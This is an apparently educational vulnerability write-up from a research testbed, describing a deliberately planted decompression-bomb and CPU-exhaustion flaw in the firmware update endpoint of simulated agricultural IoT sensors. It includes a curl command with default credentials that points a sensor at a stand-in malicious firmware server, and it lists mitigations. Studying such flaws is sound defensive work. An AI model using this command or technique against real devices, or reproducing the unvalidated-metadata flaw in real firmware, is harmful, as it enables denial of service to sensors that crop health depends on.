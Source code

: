 # Resource Exhaustion Vulnerability Details

This document provides detailed technical information about the Resource Exhaustion vulnerability implemented in the VAST framework. This vulnerability demonstrates how attackers can exploit the firmware update process to cause denial of service conditions in agricultural IoT sensors.

## Vulnerability Overview

The resource exhaustion vulnerability is embedded within the firmware update process of the temperature sensors. When exploited, it causes sensors to become unresponsive or significantly delayed in reporting temperature readings, which could have severe consequences in time-sensitive agricultural environments where environmental conditions directly impact crop health.

## Technical Implementation

The vulnerability exists in the firmware update endpoint (`/firmware/update`) which processes specially crafted firmware files that trigger resource-intensive operations. The implementation introduces two key vulnerabilities:

1. **Decompression bomb**: The code accepts an arbitrary compression ratio from the firmware file without validation, allowing attackers to claim unreasonable ratios (e.g., 10,000:1) that cause excessive memory allocation.

2. **CPU exhaustion**: After allocating memory, the code performs computationally intensive hash operations on each section of the expanded data, consuming significant CPU resources.

The vulnerability exploits a common weakness in embedded systems: trusting metadata contained within files without proper validation. This is particularly relevant for agricultural IoT sensors, which often have limited resources and may not implement appropriate resource limiting or input validation.

## Attack Architecture

![Resource Exhaustion Architecture](../images/memory-exhaustion-attack.png)

*This diagram illustrates the architecture and sequence of actions in this attack scenario. The attacker deploys a malicious firmware server containing specially crafted firmware files with excessive compression ratios. When a victim sends a firmware update request to the temperature sensor, it downloads and processes the malicious firmware, triggering resource exhaustion.*

## Attack Execution

The attack is executed using HTTP requests that trigger the firmware update process with malicious firmware files of varying compression ratios:

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
     -d '{"firmware_url": "http://malicious-firmware-server:38888/severe_firmware.sh", "version": "1.2.3-SEVERE"}' \
     http://localhost:12384/firmware/update
```

## Resource Consumption Patterns

The attack produces distinctive resource utilization patterns that can be observed through monitoring tools:

![Resource Utilization Metrics](../images/memory_cpu_usage_sensor_exhaustion.PNG)

*This graph shows resource utilization metrics before and during resource exhaustion attacks (from 21:16:16) where CPU usage and memory consumption spike dramatically. The impact of the attack can cause complete sensor unresponsiveness.*

## Vulnerability Mechanics

This vulnerability exploits three common weaknesses in IoT firmware update processes:

1. **Trust in file metadata**: The code implicitly trusts the compression ratio claimed in the file header without verification.
2. **Lack of resource limits**: The implementation attempts to allocate memory proportional to the claimed ratio without appropriate bounds checking.
3. **Inefficient processing**: The code performs CPU-intensive operations on the entire expanded data, creating a sustained load rather than a brief spike.

When combined, these weaknesses allow a relatively small input file (10-50KB) to consume gigabytes of memory and monopolize CPU resources, demonstrating the concept of a "decompression bomb" or "zip bomb" attack customized for IoT environments.

## Security Implications

The resource exhaustion vulnerability has several significant implications for agricultural IoT deployments:

1. **Availability impact**: In time-sensitive agricultural settings, unresponsive temperature sensors could fail to detect critical environmental conditions, potentially leading to crop damage or loss.
   
2. **Cascading failures**: Resource-exhausted sensors may impact other components in the IoT ecosystem, as environmental control systems wait for sensor data that never arrives or arrives too late.
   
3. **Stealth attacks**: Unlike more obvious attacks that cause immediate failure, resource exhaustion can be calibrated to cause intermittent issues that are difficult to diagnose and may be mistaken for hardware failures.
   
4. **Attack persistence**: The vulnerability remains exploitable even with proper authentication, as it leverages a legitimate function (firmware updates) rather than an obviously malicious endpoint.

## Mitigation Strategies

Based on our analysis, effective mitigations for this vulnerability should include:

- Validating claimed compression ratios against reasonable maximum values
- Implementing resource consumption limits at the container and application levels
- Adding timeout mechanisms for resource-intensive operations
- Verifying firmware integrity through cryptographic signatures before processing
- Monitoring resource utilization patterns to detect anomalous behavior

This vulnerability highlights the importance of considering resource exhaustion attacks in security threat modeling for agricultural IoT systems, particularly for devices that operate in resource-constrained environments where availability is critical for crop health and yield.